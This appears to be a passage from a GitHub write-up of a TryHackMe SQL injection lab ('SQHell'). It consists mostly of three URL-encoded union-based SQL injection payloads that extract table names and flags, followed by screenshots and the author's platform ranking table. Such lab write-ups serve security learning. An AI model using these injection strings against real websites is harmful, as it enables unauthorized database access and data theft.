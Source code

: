 
<br>


```bash
http://TargetIP/user?id=2%20union%20select%20%221%20union%20select%201,table_name,3,4%20from%20information_schema.tables%20where%20table_schema=database()%22,2,3+from%20information_schema.tables%20where%20table_schema=database();--%20-

```

![image](https://github.com/user-attachments/assets/04ed1574-fd33-44c8-b9c3-4bd81cf0c3de)



```bash
http://TargetIP/post?id=1%20and%201=2%20union%20select%201,flag,3,4%20from%20sqhell_5.flag;--%20-
```

![image](https://github.com/user-attachments/assets/6b17ee85-3bb7-4b61-9a01-25165d1dba84)




```bash

http://TargetIP/user?id=2%20union%20all%20select%20%221%20union%20select%201,flag,4,5%20from%20flag%20--%20-%22,1,2%20from%20users#
```

![image](https://github.com/user-attachments/assets/40fb484c-b54a-48ae-92ce-18c7aee2fdce)

<br><br><br>

<h1 align="center"> $$\textcolor{#3bd62d}{\textnormal{Room Completed}}$$</h1>
<p align="center"> <img width="1000px" src="https://github.com/user-attachments/assets/3daa9104-57ff-45f3-8717-0fed6841e464"><br>
                   <img width="1000px" src="https://github.com/user-attachments/assets/5744e4bb-f01e-4872-8673-39dd34a70928"></p>
<h1 align="center"> $$\textcolor{#3bd62d}{\textnormal{My TryHackMe Journey}}$$</h1>


<div align="center">

| Date<br>          |  Streak<br>|   All Time<br>Global   |   All Time<br>Brazil |  Monthly<br>Global   |  Monthly<br>Brazil   |  SHOGUN<br>points  |   Rooms<br>completed  |  Badges<br> |
| :---------------: | :--------: | :--------------------: | :------------------: | :------------------: | :------------------: | :----------------: | :-------------------: | :---------: |
| May 25, 2025      |     384    |          213ʳᵈ         |            4ᵗʰ       |        161ˢᵗ         |           3ʳᵈ        |       104,571      |             746       |    62       |

</div>

<p align="center"> Global All Time: 213ʳᵈ <br><img width="300px" src="https://github.com/user-attachments/assets/4f6a4557-4c0a-4aa5-ba33-ab03c3fc3b7e" alt="Your Image Badge"><br>
                                              <img width="1000px" src="https://github.com/user-attachments/assets/d84a2b03-b619-46a0-ae0b-c969389c18ff"><br><br>
                   Brazil All Time:   4ᵗʰ<br><img width="1000px" src="https://github.com/user-attachments/assets/9e82ebdb-b401-4485-b176-5b6538194532"><br><br>
                   Global monthly:   161ˢᵗ<br><img width="1000px" src="https://github.com/user-attachments/assets/6deb9a65-dcb9-4912-8d7c-b17b0d48b448"><br><br>
                   Brazil monthly:   3ʳᵈ<br><img width="1000px" src="https://github.com/user-attachments/assets/0bea5431-ad86-4780-8044-ab99b94eb4dc"><br><br>
                   Weekly League, Diamond:   19ᵗʰ <br><img width="400px" src="https://github.com/user-attachments/assets/dd31b8f0-dd6d-4d73-afc0-67b2146fe78b"><br>
                                                      <img width="1000px" src="https://github.com/user-attachments/assets/09b547f9-d400-4376-8b66-af4251921f72"><br></p>
